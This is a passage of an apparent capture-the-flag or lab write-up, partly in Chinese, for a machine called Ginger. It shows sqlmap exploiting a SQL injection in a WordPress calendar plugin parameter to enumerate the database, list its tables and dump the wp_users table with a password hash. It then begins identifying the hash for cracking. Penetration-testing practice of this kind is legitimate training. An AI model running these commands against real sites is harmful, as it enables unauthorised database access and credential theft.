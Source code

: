 ```bash

available databases [2]:
[*] information_schema
[*] wordpress_db

┌──(kali㉿kali)-[~/temp/Ginger]
└─$ sqlmap -u "http://$IP/wordpress/?action=data_management&cpmvc_do_action=mvparse&f=edit&id=1" --batch -D wordpress_db --tables

[16 tables]
+------------------------+
| wp_commentmeta         |
| wp_comments            |
| wp_dc_mv_calendars     |
| wp_dc_mv_configuration |
| wp_dc_mv_events        |
| wp_dc_mv_views         |
| wp_links               |
| wp_options             |
| wp_postmeta            |
| wp_posts               |
| wp_term_relationships  |
| wp_term_taxonomy       |
| wp_termmeta            |
| wp_terms               |
| wp_usermeta            |
| wp_users               |
+------------------------+

┌──(kali㉿kali)-[~/temp/Ginger]
└─$ sqlmap -u "http://$IP/wordpress/?action=data_management&cpmvc_do_action=mvparse&f=edit&id=1" --batch -D wordpress_db -T wp_users --dump
Database: wordpress_db
Table: wp_users
[1 entry]
+----+-------------------------------+------------------------------------+---------------------+------------+-------------+--------------+---------------+---------------------+---------------------+
| ID | user_url                      | user_pass                          | user_email          | user_login | user_status | display_name | user_nicename | user_registered     | user_activation_key |
+----+-------------------------------+------------------------------------+---------------------+------------+-------------+--------------+---------------+---------------------+---------------------+
| 1  | http://192.168.0.14/wordpress | $P$BsyLMheEjjRPfxertXBQWm6Nq8.YBr. | webmaster@gmail.com | webmaster  | 0           | webmaster    | webmaster     | 2021-06-02 05:28:40 | <blank>             |
+----+-------------------------------+------------------------------------+---------------------+------------+-------------+--------------+---------------+---------------------+---------------------+
```

尝试进行爆破`webmaster:$P$BsyLMheEjjRPfxertXBQWm6Nq8.YBr.`：

```bash
┌──(kali㉿kali)-[~/temp/Ginger]
└─$ hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
```